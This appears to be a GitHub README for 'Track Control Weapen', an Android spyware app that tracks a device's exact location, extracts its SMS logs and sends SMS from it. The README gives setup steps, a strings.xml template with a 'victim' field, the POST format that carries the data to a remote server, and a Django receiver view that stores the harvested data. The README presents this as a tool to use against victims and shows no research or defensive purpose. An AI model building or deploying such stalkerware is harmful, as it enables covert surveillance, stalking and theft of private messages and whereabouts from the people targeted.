 <center> <h1> Track Control Weapen </h1> </center>


## Overview
This mobile app offers multiple modes of operation:
1. **Exact Location Tracking**: Track the exact location of the device.
2. **SMS Log Extraction**: Extract SMS logs from the device.
3. **Sending SMS from Device**: Send SMS messages from the device.
4. **More features coming soon**: Additional features will be added in future updates.

Currently, only the Exact Location Tracker is completed.


## TODO List
- [x] Exact Location Tracker
- [x] SMS Log Extraction
- [x] Sending SMS from Device
- [ ] Contact Extraction
- [ ] Installed App list Extraction
- [ ] Additional features


## Setup Instructions
To set up the app, follow these steps:

1. **Configure `strings.xml`**:
    - Navigate to the `res/values` folder.
    - Create or edit the `strings.xml` file using the template below:

### strings.xml Template
```xml
<resources>
    <string name="app_name">Your App Name</string>
    <string name="victim">Name of victim to tag the received data</string>
    <string name="server_url">Server URL where POST request is created</string>
    <string name="SendSmsTo">Phone No</string>
    <string name="Message">Message body</string>
</resources>
```

2. **Build and Run the App**:
    - Open your project in Android Studio.
    - Build and run the app on your device or emulator.

## Structure of the POST Request
The app sends data to the server using a POST request with the following structure:

- `name`: Assigned in the `strings.xml`
- `mv01`: Contains all raw text data sent by the app

### Example POST Request
```json
{
    "name": "victim name",
    "mv01": "this is sent data"
}
```


## Receiver End Setup

The receiver end can be a Django server hosted on PythonAnywhere (https://www.pythonanywhere.com/) for free. To handle the POST request, you can use the following view:

```python
from django.views.decorators.csrf import csrf_exempt
from django.views.decorators.http import require_POST
from django.http import JsonResponse
from .models import tracker_database

@csrf_exempt
@require_POST
def tracker_database_entry(request):
    if request.POST.get("mv01"):
        entry = tracker_database(
            plan_data=request.POST.get("mv01"),
            name=request.POST.get("name", "s")
        )
        entry.save()
        response = {'status': 'success'}
        return JsonResponse(response, status=201)
    else:
        response = {'status': 'failure', 'message': 'Invalid data'}
        return JsonResponse(response, status=400)
```


## Changing App Modes
You can change the app modes by altering the `private Integer AppType = 1;` value in `MainActivity`. The available modes are:

- `0` -- All: Enable all features [only extraction]. 
- `1` -- Location: Enable exact location tracking.
- `2` -- SMS: Enable SMS log extraction.
- `3` -- Send SMS: Enable sending SMS from the device.
- `4` -- Contact: Enable Contact log extraction.
- `5` -- Installed App: Enable Installed App list log extraction.



## Contribution
If you would like to contribute to the project, please follow these steps:
1. Fork the repository.
2. Create a new branch (`git checkout -b feature-branch`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature-branch`).
5. Create a new Pull Request.

## License
This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Contact
For any questions or suggestions, please contact [ss.shiivam.00@gmail.com].
